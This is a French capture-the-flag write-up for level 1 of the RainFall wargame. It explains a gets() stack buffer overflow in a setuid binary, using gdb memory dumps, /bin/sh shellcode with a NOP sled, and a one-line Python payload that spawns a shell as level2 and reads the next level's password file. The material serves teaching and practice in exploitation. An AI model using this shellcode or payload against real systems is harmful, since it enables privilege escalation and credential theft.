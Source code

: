 # Level 1

<!-- ```
level0@RainFall:~$ su level1
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level1/level1
``` -->

![connexion level2](./1.png)

La connexion au level 2 nous informe que l'executable dans le repertoire permets l'execution de programmes sur la pile et que les adresses d'alocations de mémoires seront constante entre les essais.


```
level1@RainFall:~$ ls -la level1
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

Les fonctions executées dans le programme le seront avec les droits du level2 (s).

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
```

Le programme demande une entrée utilisateur avec gets.
Ligne 6, une allocation de 80 octets (0x50) est demandée.

Comme la fonction gets ne fait aucunes vérifications de tailles de chaines de caracteres, nous concluons qu'une faille par buffer overflow est possible.

La technique utilisée est de d'inclure dans le buffer un shellcode qui ouvre un shell, et comme le programme execute avec les droits du level2, nous seront dans un shell avec l'id de celui-ci.

### Fonctionnement de la faille

  Avant l'appel d'une fonction, le pointeur de fonction mere est sauvegardé afin de retourner a celle-ci a la fin de la fonction fille. Ce pointeur est sauvegardé au dessus de la pile.
  Le but de l'exploit est d'écrire plus que le buffer alloué, afin d'écraser la valeur du pointeur de la fonction mère, et ici pointer vers le buffer, dans le but d'executer notre shellcode.

### Les étapes :
- Trouver l'adresse du buffer.
- tester des longueur de buffer dans gdb pour vérifier l'écrasement du pointeur de retour.
- Executer le binaire en redirigeant stdin pour pas que le programme termine.

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
(gdb) b *0x08048490
Breakpoint 1 at 0x8048490
(gdb) b *0x08048495
Breakpoint 2 at 0x8048495
(gdb) r
Starting program: /home/user/level1/level1

Breakpoint 1, 0x08048490 in main ()
(gdb) x/xw $esp
0xbffff6e0:	0xbffff6f0
(gdb) x/20xw $esp
0xbffff6e0:	0xbffff6f0	0x0000002f	0xbffff73c	0xb7fd0ff4
0xbffff6f0:	0x080484a0	0x0804978c	0x00000001	0x08048321
0xbffff700:	0xb7fd13e4	0x00080000	0x0804978c	0x080484c1
0xbffff710:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
0xbffff720:	0xb7fed280	0x00000000	0x080484a9	0xb7fd0ff4
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 2, 0x08048495 in main ()
(gdb) x/20xw $esp
0xbffff6e0:	0xbffff6f0	0x0000002f	0xbffff73c	0xb7fd0ff4
0xbffff6f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff700:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff710:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff720:	0x41414141	0x41414141	0x41414141	0x41414141
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

Le buffer commence a 0xbffff6f0 (0x41414141 = "AAAA").

Nous allons utiliser ce shellcode :
```
"\x90"*30 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" + "A"*(75-30-23) + "\xf4\xf6\xff\xbf"
```
"\x90"*30  : NOP sled, instructions qui ne fait rien et passe a l'instruction suivante. cela permet de faire une sorte de rampe glissante vers le shellcode important, et d'augmenter la tolérence a l'emplacement de l'adresse de retour.

"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" : shellcode responsable de l'appel a /bin/sh

"A"*(75-30-23) : remplissage pour atteindre l'emplacement de l'adresse de retour de la fonction

"\xf0\xf6\xff\xbf" : adresse qui pointe vers le debut du buffer où les nop sled sont.


75 est déterniné par les essais d'alignements de l'adresse de retour.
30 est la taille des nop sled
23 est la taille du shellcode dash


```
(gdb) run <<< $(python -c 'print "\x90"*30 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" + "A"*(75-30-23) + "\xf0\xf6\xff\xbf"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/level1/level1 <<< $(python -c 'print "\x90"*30 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" + "A"*(75-30-23) + "\xf0\xf6\xff\xbf"')

Breakpoint 1, 0x08048490 in main ()
(gdb) c
Continuing.

Breakpoint 2, 0x08048495 in main ()
(gdb) c
Continuing.
process 5290 is executing new program: /bin/dash
[Inferior 1 (process 5290) exited normally]
```

Il suffit désormais d'executer hors gdb et dans une commande qui laisse ouvert l'entrée standart pour pas que le programme termine.

```
level1@RainFall:~$ python -c 'print "\x90"*30 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" + "A"*(75-30-23) + "\xf0\xf6\xff\xbf"' > /tmp/payload
level1@RainFall:~$ cat /tmp/payload - | /home/user/level1/level1
id
uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```